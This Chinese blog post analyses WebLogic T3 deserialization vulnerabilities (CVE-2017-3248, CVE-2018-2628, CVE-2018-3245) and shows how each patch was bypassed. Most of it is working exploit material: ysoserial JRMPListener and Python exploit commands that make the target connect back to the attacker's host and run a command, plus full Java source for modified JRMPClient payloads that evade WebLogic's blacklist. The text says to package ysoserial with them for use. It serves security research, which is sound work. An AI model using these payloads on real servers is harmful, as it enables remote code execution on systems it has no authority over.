



# weblogicT3 反序列化之 CVE-2017-3248&CVE-2018-2628&CVE-2018-3245 - noone52 - 博客园

> 原文：[`www.cnblogs.com/MoZiYa/p/16690192.html`](https://www.cnblogs.com/MoZiYa/p/16690192.html)

## 前言

上上篇[文章](https://blog.csdn.net/weixin_45682070/article/details/123332048?spm=1001.2014.3001.5501)我们分析了 CVE-2015-4852、CVE-2016-0638、CVE-2016-3510 的漏洞，因果是从 resolveClass 方法中出现的，resolveClass 方法直接继承了父类的方法，然后没有任何过滤的造成了序列化漏洞，后面两个 cve 都是前者的绕过。今天分析一下 CVE-2017-3248 & CVE-2018-2628，[上上文](https://blog.csdn.net/weixin_45682070/article/details/123332048?spm=1001.2014.3001.5501)中我们知道 readClassDesc 类描述方法可分为没有代理的类和代理类，CVE-2017-3248 漏洞的成因就是代理类 resolveProxyClass 方法。


## CVE-2017-3248

利用原理是：
攻击机开启 JRMP 服务端 -》利用 T3 协议发送 payload 使得 weblogic 反序列化后，开启 JRMP 客户端，并连接服务端 -》服务端发送 exp 给客户端，客户端上的 DGC 接收到响应即会反序列化。
核心部分就是 JRMP（Java Remote Method protocol），在这个 PoC 中会序列化一个 RemoteObjectInvocationHandler，它会利用 UnicastRef 建立到远端的 tcp 连接获取 RMI registry，加载回来再利用 readObject 解析，从而造成反序列化远程代码执行.
如果仔细分析过[上篇文章](https://blog.csdn.net/weixin_45682070/article/details/123407337?spm=1001.2014.3001.5501)的，这里的利用步骤能很容易看懂。
首先我们开启 JRMP 服务端：

```
java -cp .\ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections1 'touch /tmp/success' 
```


利用 T3 协议发送 payload/JRMPClient，然目标回连我们：

```
python2 2017-3248.py 192.168.202.129 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.202.1 9999 JRMPClient 
```


发送 T3 协议 payload 的[POC](https://www.exploit-db.com/exploits/44553)

```
python2 p2-CVE-2017-3248.py dip dport path_ysoserial jrmp_listener_ip jrmp_listener_port jrmp_client 
```


漏洞分析：
上文中的 payloads/JRMPClient 的分析部分就是这里漏洞的分析，只不过 resolveProxyClass 方法，没有过滤 java.rmi.registry.Registry 类，造成了反序列化。


## CVE-2018-2628

先看看补丁中 InboundMsgAbbrev 中 resolveProxyClass 的实现，resolveProxyClass 是处理 rmi 接口类型的，只判断了 java.rmi.registry.Registry，其实随便找一个 rmi 接口即可绕过。

```
protected Class<?> resolveProxyClass(String[] interfaces) throws IOException, ClassNotFoundException {
   String[] arr$ = interfaces;
   int len$ = interfaces.length;
   for(int i$ = 0; i$ < len$; ++i$) {
      String intf = arr$[i$];
      if(intf.equals("java.rmi.registry.Registry")) {
         throw new InvalidObjectException("Unauthorized proxy deserialization");
      }
   }
   return super.resolveProxyClass(interfaces);
} 
```

**方法 1：取消代理 proxy**
取消代理 proxy，不走 resolveProxyClass，而去走 resolveClass 就可以绕过
JRMP3/JRMP4 没有使用代理类，而去走 resolveClass，resolveClass 方法中没有对 java.rmi.registry.Registry 类进行过滤，所以可绕过

```
package ysoserial.payloads;

import java.rmi.server.ObjID;
import java.util.Random;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.payloads.util.PayloadRunner;
import javax.management.remote.rmi.RMIConnectionImpl_Stub;

public class JRMPClient3 extends PayloadRunner implements ObjectPayload<Object> {

    public Object getObject (final String command ) throws Exception {
        String host;
        int port;
        int sep = command.indexOf(':');
        if (sep < 0) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID objID = new ObjID(new Random().nextInt());
        TCPEndpoint tcpEndpoint = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
        RMIConnectionImpl_Stub stub = new RMIConnectionImpl_Stub(ref);
        return stub;
    }

    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient3.class.getClassLoader());
        PayloadRunner.run(JRMPClient3.class, args);
    }
} 
```

```
package ysoserial.payloads;

import java.rmi.server.ObjID;
import java.util.Random;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.payloads.util.PayloadRunner;
import com.sun.jndi.rmi.registry.ReferenceWrapper_Stub;

public class JRMPClient4 extends PayloadRunner implements ObjectPayload<Object> {

    public Object getObject (final String command ) throws Exception {
        String host;
        int port;
        int sep = command.indexOf(':');
        if (sep < 0) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID objID = new ObjID(new Random().nextInt());
        TCPEndpoint tcpEndpoint = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
        ReferenceWrapper_Stub stub = new ReferenceWrapper_Stub(ref);
        return stub;
    }

    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient4.class.getClassLoader());
        PayloadRunner.run(JRMPClient4.class, args);
    }
} 
```

方法 2：寻找 Registry 的替代类
绕过是用 java.rmi.activation.Activator 替换 java.rmi.registry.Registry，从而绕过 resolveProxyClass 的判断。其实这里对接口没有要求，不一定是 rmi 接口，随便找一个接口都行，比如 java.util.Map

```
package ysoserial.payloads;

import java.lang.reflect.Proxy;
//import java.rmi.registry.Registry;
import java.rmi.activation.Activator;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;

/**
 *
 *
 * UnicastRef.newCall(RemoteObject, Operation[], int, long)
 * DGCImpl_Stub.dirty(ObjID[], long, Lease)
 * DGCClient$EndpointEntry.makeDirtyCall(Set<RefEntry>, long)
 * DGCClient$EndpointEntry.registerRefs(List<LiveRef>)
 * DGCClient.registerRefs(Endpoint, List<LiveRef>)
 * LiveRef.read(ObjectInput, boolean)
 * UnicastRef.readExternal(ObjectInput)
 *
 * Thread.start()
 * DGCClient$EndpointEntry.<init>(Endpoint)
 * DGCClient$EndpointEntry.lookup(Endpoint)
 * DGCClient.registerRefs(Endpoint, List<LiveRef>)
 * LiveRef.read(ObjectInput, boolean)
 * UnicastRef.readExternal(ObjectInput)
 *
 * Requires:
 * - JavaSE
 *
 * Argument:
 * - host:port to connect to, host only chooses random port (DOS if repeated many times)
 *
 * Yields:
 * * an established JRMP connection to the endpoint (if reachable)
 * * a connected RMI Registry proxy
 * * one system thread per endpoint (DOS)
 *
 * @author mbechler
 */
@SuppressWarnings ( {
    "restriction"
} )
@PayloadTest( harness="ysoserial.test.payloads.JRMPReverseConnectSMTest")
@Authors({ Authors.MBECHLER })
public class JRMPClient2 extends PayloadRunner implements ObjectPayload<Activator> {

    public Activator getObject ( final String command ) throws Exception {

        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        /*Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
            Registry.class
        }, obj);
         */
        Activator proxy = (Activator) Proxy.newProxyInstance(JRMPClient2.class.getClassLoader(), new Class[] {
            Activator.class
        }, obj);
        return proxy;
    }

    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient2.class.getClassLoader());
        PayloadRunner.run(JRMPClient2.class, args);
    }
} 
```

自行打包 ysoserial，即可使用

## CVE-2018-3245

根据前面的分析可知，我们只需要找一个类似 java.rmi.server.RemoteObjectInvocationHandler 的类进行替换，就能继续绕过了。
那么这个类应该满足以下条件：
继承远程类：java.rmi.server.RemoteObject
不在黑名单里边（java.rmi.activation. 、sun.rmi.server.）
符合条件的还不少，可在 idea 中查看谁实现了 RemoteObject 这个类。

RMIConnectionImpl_Stub 继承了 java.rmi.server.RemoteStub 继承了 java.rmi.server.RemoteObject


稍微改一下 payload 便能继续利用了：

```
package ysoserial.payloads;

import java.rmi.server.ObjID;
import java.util.Random;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.payloads.util.PayloadRunner;
import javax.management.remote.rmi.RMIConnectionImpl_Stub;

@SuppressWarnings ( {
    "restriction"
} )

public class JRMPClient3 extends PayloadRunner implements ObjectPayload<Object> {

    public Object getObject ( final String command ) throws Exception {

        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RMIConnectionImpl_Stub stub = new RMIConnectionImpl_Stub(ref);
        return stub;
    }

    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient3.class.getClassLoader());
        PayloadRunner.run(JRMPClient3.class, args);
    }
} 
```

```
参考：
https://xz.aliyun.com/t/2479
https://www.cnblogs.com/nice0e3/p/14275298.html
https://www.cnblogs.com/yyhuni/p/15177765.html
http://redteam.today/2020/03/25/weblogic%E5%8E%86%E5%8F%B2T3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8F%8A%E8%A1%A5%E4%B8%81%E6%A2%B3%E7%90%86/#CVE-2016-0638 
```